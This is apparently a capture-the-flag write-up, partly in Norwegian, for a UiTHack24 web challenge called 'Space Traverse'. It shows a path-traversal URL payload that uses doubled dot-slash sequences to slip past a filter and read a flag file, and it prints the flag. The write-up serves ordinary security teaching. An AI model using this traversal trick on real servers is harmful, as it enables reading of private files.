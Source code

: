 # Space Traverse
In the search for a new planet to inhabit, we have found a couple different candidates. I have collected images of them, so that you can help me decide which one to go to.

https://uithack.td.org.uit.no:8001

## Løsning
Hintet i denne oppgaveteksten er "traverse". Her er poenget at man skal bruke URL-en til å finne en gjemt fil. For å løse oppgaven prøvde jeg meg frem med `../` og `flag.txt` til jeg fant flagget på denne URL-en: `https://uithack.td.org.uit.no:8001/images/?image=....//....//flag.txt`

`UiTHack24{n0t_th3_tr4v3rse_1_w45_3xp3c71ng}`